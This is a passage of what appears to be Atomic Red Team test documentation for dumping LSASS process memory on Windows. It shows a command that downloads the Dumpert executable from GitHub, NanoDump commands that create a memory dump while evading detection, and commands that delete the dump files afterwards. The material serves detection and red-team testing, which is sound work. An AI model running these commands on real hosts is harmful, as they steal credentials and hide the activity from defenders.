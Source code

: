 
```cmd
"#{dumpert_exe}"
```

#### Cleanup Commands:
```cmd
del C:\windows\temp\dumpert.dmp >nul 2> nul
```



#### Dependencies:  Run with `powershell`!
##### Description: Dumpert executable must exist on disk at specified location (#{dumpert_exe})
##### Check Prereq Commands:
```powershell
if (Test-Path "#{dumpert_exe}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
New-Item -ItemType Directory (Split-Path "#{dumpert_exe}") -Force | Out-Null
Invoke-WebRequest "https://github.com/clr2of8/Dumpert/raw/5838c357224cc9bc69618c80c2b5b2d17a394b10/Dumpert/x64/Release/Outflank-Dumpert.exe" -OutFile "#{dumpert_exe}"
```




<br/>
<br/>

## Atomic Test #4 - Dump LSASS.exe Memory using NanoDump
The NanoDump tool uses syscalls and an invalid dump signature to avoid detection.

https://github.com/helpsystems/nanodump

Upon successful execution, you should find the nanondump.dmp file in the temp directory

**Supported Platforms:** Windows


**auto_generated_guid:** dddd4aca-bbed-46f0-984d-e4c5971c51ea






#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
PathToAtomicsFolder\..\ExternalPayloads\nanodump.x64.exe -w "%temp%\nanodump.dmp"
```

#### Cleanup Commands:
```cmd
del "%temp%\nanodump.dmp" >nul 2> nul
```
